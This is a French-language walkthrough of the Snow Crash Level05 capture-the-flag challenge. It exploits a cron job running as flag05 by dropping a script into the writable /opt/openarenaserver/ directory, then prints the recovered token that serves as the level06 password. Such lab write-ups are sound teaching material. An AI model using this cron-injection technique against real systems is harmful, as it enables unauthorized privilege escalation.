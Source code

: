 # Snow Crash – Level05

## 🎯 Objectif  
Exploiter un cron job exécuté en tant que `flag05` pour injecter un script dans `/opt/openarenaserver/` et récupérer le token.

---

## 🔎 1. Analyse du système

```bash
find / -user flag05 2> /dev/null
```

Résultat :
```
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

Contenu du fichier :
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

🔁 Ce script :
- Exécute chaque fichier dans `/opt/openarenaserver/`
- Limite le temps CPU à 5 secondes
- Supprime chaque fichier après exécution

⚠️ `/opt/openarenaserver/` est accessible en écriture → on peut y déposer un fichier.

---

## ⏰ 2. Cron Job

```bash
cat /var/mail/level05
```

Contenu :
```bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Cela signifie que **toutes les 2 minutes**, le script `/usr/sbin/openarenaserver` est exécuté **en tant que `flag05`**.

---

## 🛠️ 3. Exploitation

On crée un fichier script dans `/opt/openarenaserver/` qui contient :
```bash
/bin/getflag > /tmp/flag05
```

Commande :
```bash
echo '/bin/getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
```

💡 **Important :** ne pas écrire directement dans `/tmp/flag05` depuis le terminal, car tout fichier dans `/opt/openarenaserver/` est supprimé après exécution.

---

## ⏳ 4. Attente

Attendre 2 minutes que le cron job exécute notre script automatiquement.

---

## 🏁 5. Récupération du flag

```bash
cat /tmp/flag05
```

Résultat :
```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## ✅ Résumé

- 🗂️ Script injecté dans : `/opt/openarenaserver/`
- ⏰ Exécuté automatiquement par cron en tant que `flag05`
- 🏆 Token récupéré : `viuaaale9huek52boumoomioc`
- 🔑 Mot de passe pour `level06` : `viuaaale9huek52boumoomioc`